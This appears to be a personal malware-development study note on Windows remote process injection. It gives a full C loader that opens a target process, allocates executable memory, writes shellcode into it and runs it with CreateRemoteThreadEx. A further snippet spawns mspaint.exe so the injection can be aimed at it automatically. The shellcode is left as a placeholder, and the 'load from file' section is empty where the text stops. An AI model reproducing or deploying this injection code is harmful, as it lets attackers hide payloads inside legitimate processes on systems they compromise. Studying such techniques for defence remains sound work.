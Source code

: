 reference: [crow's gitbook](https://crows-nest.gitbook.io/crows-nest/malware-development/process-injection/shellcode-injection)

# The words bit
Instead of basically copying crow's blog I'm going to add a few things.
1. Automate the whole "find notepad.exe PID and then start the program" thing.
2. Load the shellcode from a file.

# Remote Process Injection
I think remote is the write word.
```c
#include <Windows.h>
#include <stdio.h>

const char* k = "[+]";
const char* i = "[*]";
const char* e = "[-]";

DWORD PID, TID = NULL;
LPVOID rBuffer = NULL;
HANDLE hProcess, hThread = NULL;

unsigned char whatsshellcode[] =
<shellcode>;

int main(int argc, char* argv[]) {

	if (argc < 2) {

		printf("%s usage: program.exe <PID>", e);
		return EXIT_FAILURE;
	}
	printf("%s\n", whatsshellcode);
	PID = atoi(argv[1]);
	printf("%s trying to open a handle to process (%ld)\n", i, PID);

	/* open a handle to the process */
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);

	if (hProcess == NULL) {
		printf("%s couldn't get a handle to the process (%ld), error: %ld", e, PID, GetLastError());
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the process!\n--0x%p\n", k, hProcess);


	/* allocate bytes to process memory */
	rBuffer = VirtualAllocEx(hProcess,NULL,sizeof(whatsshellcode),(MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
	printf("%s allocated %zu-bytes with PAGE_EXECUTE_READWRITE permissions\n", k, sizeof(whatsshellcode));

	WriteProcessMemory(hProcess, rBuffer, whatsshellcode, sizeof(whatsshellcode), NULL);
	printf("%s wrote %zu-bytes to process in memory.\n", k, sizeof(whatsshellcode));

	/* create thread to run the payload */
	hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, 0, &TID);

	if (hThread == NULL) {
		printf("%s failed to get a handle to the thread, error: %ld", e, GetLastError());
		CloseHandle(hProcess);
		return EXIT_FAILURE;
	}

	printf("%s got a handle to the thread (%ld)\n--0x%p\n", k, TID, hThread);
	
	printf("%s waiting for thread to finish\n", i);
	WaitForSingleObject(hThread, INFINITE);
	printf("%s thread finished executing\n",k);

	printf("%s cleaning up\n", i);
	CloseHandle(hThread);
	CloseHandle(hProcess);
	printf("%s finished!", k);

	return EXIT_SUCCESS;
}
```

# Changes
## Automation
This will be super easy as I can just add the code from [Into to MalDev](./Intro%20to%20MalDev) where I made mspaint open.
```c
STARTUPINFOW si;
PROCESS_INFORMATION pi;

if (!CreateProcessW(L"C:\\WINDOWS\\system32\\mspaint.exe",NULL,NULL,NULL,FALSE,0,NULL,NULL,&si,&pi)){
	printf("(-) failed to create process, error: %ld", GetLastError());
	return EXIT_FAILURE;
}
printf("(+) process started! pid: %ld", pi.dwProcessId);
return EXIT_SUCCESS;
```

Then just assign PID to be `pi.dwProcessId`

## Load from file
